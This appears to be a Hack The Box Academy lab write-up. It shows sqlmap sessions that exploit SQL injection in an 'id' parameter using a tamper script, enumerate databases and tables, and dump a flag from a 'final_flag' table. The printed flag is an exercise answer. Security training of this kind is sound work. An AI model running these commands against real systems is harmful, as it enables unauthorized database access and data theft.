┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap -r addtochart.req --batch -p id --tamper=between --banner --dbs --threads 10

[SNIP]

[09:51:53] [INFO] fetching banner
0.3.23-MariaDB-0+deb10u1
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
banner: '10.3.23-MariaDB-0+deb10u1'
[09:53:28] [INFO] fetching database names
[09:53:28] [INFO] fetching number of databases
[09:53:28] [INFO] retrieved: 2
[09:53:30] [INFO] retrieved: information_schema
[09:54:30] [INFO] retrieved: production
available databases [2]:
[*] information_schema
[*] production

[SNIP]

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap -r addtochart.req --batch -p id --tamper=between -D production --tables --threads 10

[SNIP]

[09:58:49] [INFO] fetching tables for database: 'production'
[09:58:49] [INFO] fetching number of tables for database 'production'

[09:59:00] [INFO] retrieved: 
[09:59:05] [INFO] adjusting time delay to 1 second due to good response times
final_flag
[09:59:39] [INFO] retrieved: order_items
[10:00:18] [INFO] retrieved: products
[10:00:47] [INFO] retrieved: categories
[10:01:16] [INFO] retrieved: brands
Database: production
[5 tables]
+-------------+
| brands      |
| categories  |
| final_flag  |
| order_items |
| products    |
+-------------+

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap -r addtochart.req --batch -p id --tamper=between -D production -T final_flag --dump --no-cast --threads 10

[SNIP]

Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+

[SNIP]
```

**Answer**

```

```

---
---
